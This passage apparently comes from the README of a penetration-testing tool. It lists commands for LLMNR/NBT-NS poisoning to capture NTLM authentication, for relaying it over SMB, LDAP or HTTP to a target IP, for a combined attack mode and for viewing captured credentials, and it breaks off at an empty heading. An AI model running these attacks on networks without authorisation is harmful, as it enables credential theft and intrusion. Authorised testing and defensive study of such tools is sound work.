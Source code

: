 **`config/logging.ini`** - Logging configuration:
```ini
[logger_root]
level=INFO
handlers=consoleHandler
```

## 🚀 Usage

### Prerequisites
- Run as Administrator/root for packet capture
- Ensure MongoDB is running
- Configure network interfaces

### List Network Interfaces
```bash
python scripts/list_interfaces.py
```

### Basic Commands

#### 1. Poisoning Mode (LLMNR/NBT-NS)
Capture NTLM authentication attempts through network poisoning:
```bash
python src/main.py poison --interface eth0
```

#### 2. Relay Mode
Relay captured NTLM authentication to target services:
```bash
# SMB relay
python src/main.py relay --interface eth0 --target 192.168.1.100

# LDAP relay
python src/main.py relay --interface eth0 --target ldap://192.168.1.100

# HTTP relay
python src/main.py relay --interface eth0 --target http://192.168.1.100
```

#### 3. Attack Mode (Combined)
Run poisoning and relaying simultaneously:
```bash
python src/main.py attack --interface eth0 --target 192.168.1.100
```

#### 4. List Captured Results
View stored authentication attempts and results:
```bash
python src/main.py list
```

### Advanced Usage

